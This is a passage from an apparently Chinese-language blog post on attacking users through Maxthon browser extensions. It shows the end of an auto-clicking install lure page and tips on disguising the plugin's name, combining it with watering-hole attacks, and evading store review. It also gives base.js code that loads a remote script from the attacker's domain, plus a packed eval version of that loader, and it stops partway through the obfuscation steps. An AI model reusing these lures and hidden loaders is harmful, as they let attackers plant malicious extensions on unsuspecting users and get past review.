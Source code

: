 ```
                });
            }
            $(document).delegate('#app-install', 'click', function (event) {
                event.preventDefault();
                event.stopPropagation();
                getInstallMessage(this, 'a[file_def]', 'app');
            });
            $("#app-install").click();
        }
    },1000);
</script>
</html>
```
打开后的样子:

![](/images/browser-plugin-attack-vector/2.png)

![](/images/browser-plugin-attack-vector/3.png)

![](/images/browser-plugin-attack-vector/4.png)

这处的LOL战绩查询插件是我之前上传的(不要安装)。真正攻击时可以换成不要那么二的名字，比如"网站增强工具"等

一开始，我还想试试能不能点击劫持，这样就可以在用户不知情的情况下安装插件，但是这个安装程序不是在页面里面的。无法进行劫持，随之放弃。

这样一来，尽量让用户少思考的网页就做好了。发布，等待用户上钩吧。这个方法可以与APT攻击中的"水坑攻击"进行相结合，以达到针对性某些特殊的群体或个体的攻击方式

#### 0x1.2 被动等待

这个办法是属于广撒网，当没有指定性群体或者个人，只是为了单纯的攻击或者研究时使用。

这里也有一些小技巧，当开发者上传插件时，遨游审核人员会对插件进行审核，如果发现危害用户的代码，将不给予通过，乍一看没什么问题，但是没有后续了。

> 没有定期自动化扫描插件代码

> 而且即使插件是一个小游戏用，都可以在配置文件def.json里申请权限是最高的

> 当代码量足够多的时候，开发人员可以把一些危害到用户请求的代码进行加密混编绕过审查人员的眼睛。（调用伟大的人民领袖毛主席的一句话:与规矩斗，其乐无穷。与代码斗其乐无穷。与人斗其乐无穷。）

> 可以在插件里调用第三方的JavaScript代码，第三方url可以指向任何域名。没有进行判断URL及js文件是否为可信

利用以上的问题，我们就可以写出一个具有危害到用户插件，且绕过审查人员的眼睛。

我们可以在插件源码base.js文件里写
```javascript
//xxxxx其他多余的代码
var script = document.createElement('script');
script.src = "http://你的域名/javascript文件名.js";
document.body.appendChild(script);
//xxxxx其他多余的代码
```
如果不放心可可以加密成下面的这种格式:
```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('o 7=["\\e\\c\\g\\b\\a\\9","\\c\\g\\6\\8\\9\\6\\q\\h\\6\\j\\6\\f\\9","\\e\\g\\c","\\m\\9\\9\\a\\t\\i\\i\\d\\n\\j\\8\\b\\f\\i\\l\\8\\s\\8\\e\\c\\g\\b\\a\\9\\r\\b\\h\\6\\f\\8\\j\\6\\u\\l\\e","\\8\\a\\a\\6\\f\\d\\w\\m\\b\\h\\d","\\x\\n\\d\\v"];o k=p[7[1]](7[0]);k[7[2]]=7[3];p[7[5]][7[4]](k)',34,34,'||||||x65|_0|x61|x74|x70|x69|x63|x64|x73|x6E|x72|x6C|x2F|x6D|script|x6A|x68|x6F|var|document|x45|x66|x76|x3A|x2E|x79|x43|x62'.split('|'),0,{}))

```
方法为：先在[javascriptobfuscator](https://javascriptobfuscator.com/Javascript-Obfuscator.aspx)上把正常的javascript代码加密成:
```
```